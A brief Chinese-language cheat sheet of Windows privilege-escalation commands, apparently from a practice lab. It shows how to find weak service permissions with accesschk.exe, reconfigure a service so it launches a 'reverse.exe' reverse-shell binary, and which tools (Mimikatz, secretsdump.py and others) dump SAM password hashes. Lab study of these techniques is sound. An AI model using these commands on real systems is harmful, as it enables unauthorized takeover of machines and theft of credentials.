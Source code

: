 ### 初始枚举




## 实战

### 命令&工具



查询服务：  
sc qc <服务名称>

修改服务配置并将 BINARY_PATH_NAME (binpath) 设置为您创建的reverse.exe可执行文件：  
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""

>启动服务

net start <服务名称>

>accesschk.exe

accesschk.exe 检查某个账户对某个服务的权限

栗子：  

使用 accesschk.exe 检查“user”帐户对“daclsvc”服务的权限：  
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc

C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"

C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc

C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"

C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1


>

### SAM文件

检索SAM文件工具：  
pwdumpx.exe
gsecdump
Mimikatz
secretsdump.py

